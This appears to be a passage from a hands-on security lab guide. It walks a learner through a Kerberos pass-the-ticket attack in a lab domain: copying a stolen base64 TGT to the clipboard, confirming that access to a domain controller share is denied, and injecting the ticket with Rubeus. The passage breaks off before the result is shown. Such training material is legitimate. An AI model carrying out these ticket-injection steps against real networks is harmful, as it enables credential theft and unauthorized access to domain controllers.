 ### Task 3 - Inject stolen tickets into memory


1. [] Let's put the base64 ticket into your clipboard. In the **Windows Terminal** window, run `(Get-Content C:\Users\Public\tgt.txt) -join "" -replace " " | clip`.

    >[!knowledge] **clip** is a command line tool that take the output of a command and save it to the clipboard.

1. [] In the **Windows Terminal** window, run `klist`. It should return a bunch of Kerberos ticket. The one for your current session. Note that all of them are for the **Client:** **red @ CONTOSO.COM**. Those tickets were obtains thanks to our TGT. You can see the TGT by running `klist tgt`. It should look like this:
![image](.\IMG\TGT1.png)

1. [] In the same console, try to browse the C$ share of a domain controller, first run `cmd` and then run `dir \\DC01\C$`. You should get this error message:
![image](.\IMG\PTT0.png)

1. [] Change the active directory by running `cd \Tools\Ghostpack` and then type but do not execute `rubeus.exe ptt /ticket:` then before hitting Enter, make sure you place your cursor on the terminal and do a right click anywhere in the console. This should paste the content of your clipboard in the console. Then hit **Enter**.
    It should look like this: